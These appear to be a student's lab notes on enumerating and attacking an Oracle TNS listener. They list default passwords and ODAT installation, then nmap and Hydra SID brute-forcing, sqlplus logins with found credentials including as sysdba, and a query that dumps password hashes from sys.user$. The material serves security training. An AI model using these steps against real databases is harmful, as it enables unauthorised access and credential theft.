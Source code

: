 - Oracle Transparent Network Substrate (TNS) server is a communication protocol that facilitates communication between Oracle databases and applications over networks
- supports IPX/SPX and TCP/IP protocols

### Default Configuration

- listens for incoming connections on the TCP/1521
- By default, Oracle TNS can be remotely managed in Oracle 8i/9i but not in Oracle 10g/11g
- listener will only accept connections from authorized hosts and perform basic authentication using a combination of hostnames, IP addresses, and usernames and passwords
- listener will use Oracle Net Services to encrypt the communication between the client and the server.
- configuration files are tnsnames.ora and listener.ora and are located in the ORACLE_HOME/network/admin directories
- Oracle 9 has a default password **CHANGE_ON_INSTALL**
- Oracle 10 has no default password set
- Oracle DBSNMP service also uses a default password, **dbsnmp**
- many organizations still use the finger service together with Oracle
- Each database or service has a unique entry in the tnsnames.ora file, containing the necessary information for clients to connect to the service
- listener.ora file is a server-side configuration file that defines the listener process's properties and parameters, which is responsible for receiving incoming client requests and forwarding them to the appropriate Oracle database instance
- Oracle databases can be protected by using so-called PL/SQL Exclusion List (PlsqlExclusionList). It is a user-created text file that needs to be placed in the $ORACLE_HOME/sqldeveloper directory, and it contains the names of PL/SQL packages or types that should be excluded from execution


### Oracle Database Attacking Tool

Oracle Database Attacking Tool (ODAT) is an open-source penetration testing tool written in Python and designed to enumerate and exploit vulnerabilities in Oracle databases. It can be used to identify and exploit various security flaws in Oracle databases, including SQL injection, remote code execution, and privilege escalation.

Below is a script to download the tool and it's dependencies

```
#!/bin/bash

sudo apt-get install libaio1 python3-dev alien python3-pip -y
git clone https://github.com/quentinhardy/odat.git
cd odat/
git submodule init
sudo submodule update
sudo apt install oracle-instantclient-basic oracle-instantclient-devel oracle-instantclient-sqlplus -y
pip3 install cx_Oracle
sudo apt-get install python3-scapy -y
sudo pip3 install colorlog termcolor pycryptodome passlib python-libnmap
sudo pip3 install argcomplete && sudo activate-global-python-argcomplete
```

System Identifier, **SIDs**, are an essential part of the connection process, as it identifies the specific instance of the database the client wants to connect to. If the client specifies an incorrect SID, the connection attempt will fail. Database administrators can use the SID to monitor and manage the individual instances of a database. For example, they can start, stop, or restart an instance, adjust its memory allocation or other configuration parameters, and monitor its performance using tools like Oracle Enterprise Manager.


**NMAP**
```
sudo nmap -p1521 -sV 10.129.205.19 --open
```

**NMAP - SID Bruteforcing**
```
sudo nmap -p1521 -sV 10.129.205.19 --open --script oracle-sid-brute
```


**Use odat.py to enumerate the oracle db**
```
./odat.py all -s 10.129.205.19
```

Credentials found - scott:tiger

**Use sqlplus to connect to Oracle db**
```
sqlplus scott/tiger@10.129.205.19/XE;
```

If you come across the following error...
```
sqlplus: error while loading shared libraries: libsqlplus.so: cannot open shared object file: No such file or directory
```

...execute the below:
```
sudo sh -c "echo /usr/lib/oracle/12.2/client64/lib > /etc/ld.so.conf.d/oracle-instantclient.conf";sudo ldconfig
```

**Oracle RDBMS Interaction**
```
select table_name from all_tables;
```

**ORACLE RDBMS Enumeration - Logging in as Sys Admin**
(substitute scott:tiger for robin:robin)
```
sqlplus robin/robin@10.129.205.19/XE as sysdba
```

**Extracting Password Hashes**
```
select name, password from sys.user$;
```

### Questions

Enumerate the target Oracle database and submit the password hash of the user DBSNMP as the answer.
```
```

Nmap
![[nmap_oracle_tns.png]]

Simply wordlist does not work
![[Pasted image 20230813045715.png]]

Found 4 legit SIDS
```
sudo hydra -L /usr/share/wordlists/sids-oracle.txt -t 32 -s 1521 10.129.205.19 oracle-sid
```

![[Pasted image 20230813061046.png]]

Running the following attack, but getting "Unknown service: oracle"
![[Pasted image 20230816230407.png]]

NSE oracle-sid-brute script
```
sudo nmap -p1521 -sV 10.129.45.163 --open --script oracle-sid-brute -Pn
```

![[Pasted image 20230816230543.png]]

Install sqlplus, following the instructions in the below links:
https://book.hacktricks.xyz/network-services-pentesting/1521-1522-1529-pentesting-oracle-listener

[book.hacktricks.xyz](https://book.hacktricks.xyz/network-services-pentesting/1521-1522-1529-pentesting-oracle-listener/oracle-pentesting-requirements-installation)

https://lisandre.com/archives/2164



